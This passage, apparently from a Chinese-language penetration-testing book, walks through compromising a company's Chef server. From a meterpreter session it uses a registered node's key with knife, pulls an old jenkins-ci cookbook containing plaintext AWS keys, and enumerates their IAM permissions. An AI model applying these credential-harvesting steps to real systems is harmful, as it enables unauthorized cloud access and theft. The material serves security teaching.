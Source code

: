 就是这样。我们完成了。我们偷偷将一台新机器加入了 Chef 服务器的目录，并收到了一个名为 *client.pem* 的新私钥。

`chef-client` 可执行文件负责处理机器的状态，包括应用相关的食谱、注册机器等。为了探索在 Chef 服务器上定义的资源，我们需要使用 `knife` 工具。它是 Chef 标准包的一部分，但需要一个小的配置文件才能正常运行。下面是一个配置文件示例，基于之前执行的 `chef-client` 命令的输出（用来获取机器的名称）和 *client.rb* 配置：

```
# ~/root/.chef/knife.rb
node_name       'aws-node-78ec.eu-west-1.compute.internal'
client_key      '/etc/chef/client.pem'
chef_server_url 'https://chef.mxrads.net/organizations/mxrads'
knife[:editor] = '/usr/bin/vim'
```

配置好 `knife` 后，让我们使用它列出 Chef 服务器的食谱目录：

```
meterpreter > **knife cookbooks list**
apt                         7.2.0
ark                         4.0.0
build-essential             8.2.1
jenkins-ci                  10.41.5
`--snip--`
```

太棒了，我们亲爱的 jenkins-ci 食谱就在这里。让我们仔细看看这个食谱的版本历史：

```
meterpreter > **knife cookbooks show jenkins-ci**
10.9.5 10.9.4 10.9.4 10.9.3 10.9.2 10.9.1 10.9.8 10.9.7...
4.3.1 4.3.0 3.12.9 3.11.8 3.11.7 3.9.3 3.9.2 3.9.1
```

我们可以看到，狡猾的 Chef 服务器保存了超过 50 个版本的食谱，从 10.9.5 一直到 3.9.1。现在，我们需要找到带有明文凭证的最新食谱——理想情况下，是在切换到 KMS 之前的版本。

我们开始检查不同的版本，从最新版本开始，经过几次尝试后，我们最终找到了 10.8.6 版本的食谱：

```
meterpreter > **knife cookbooks show jenkins-ci 10.8.6**
attributes:
  checksum:    320a841cd55787adecbdef7e7a5f977de12d30
  name:        attributes/secrets.rb
  url:         https://chef.mxrads.net:443/bookshelf/organization-
26cbbe406c5e38edb280084b00774500/checksum-320a841cd55787adecbdef7e7a5f977de12d30?AWSAccessKeyId=25ecce65728a200d6de4bf782ee0a5087662119
&Expires=1576042810&Signature=j9jazxrJjPkHQNGtqZr1Azu%2BP24%3D
--`snip`--
meterpreter > **curl https://chef.mxrads.net:443/bookshelf/org...**

1'AWS_JENKINS_ID' => 'AKIA55ZRK6ZS2XX5QQ4D',
  'AWS_JENKINS_SECRET' => '6yHF+L8+u7g7RmHcudlCqWIg0SchgT',
`--snip--`
```

我的天，我们找到了！Jenkins 自己的 AWS 访问密钥以明文形式存储 1。如果这个小家伙不是 AWS 账户的管理员，那我真不知道谁能是了。

在列表 10-7 中，我们通过链式调用几个 AWS API 来获取与这些凭证关联的 IAM 用户名、其附加的策略、最新版本，最后是它们的内容。

```
root@Point1:~/# **vi ~/.aws/credentials**
[jenkins]
aws_access_key_id = AKIA55ZRK6ZS2XX5QQ4D
aws_secret_access_key = 6yHF+L8+u7g7RmHcudlCqWIg0SchgT

# get username
root@Point1:~/# **aws iam get-user --profile jenkins**
"UserName": "jenkins"

# list attached policies
root@Point1:~/# **aws iam list-attached-user-policies \**
**--user-name=jenkins \**
**--profile jenkins**
```
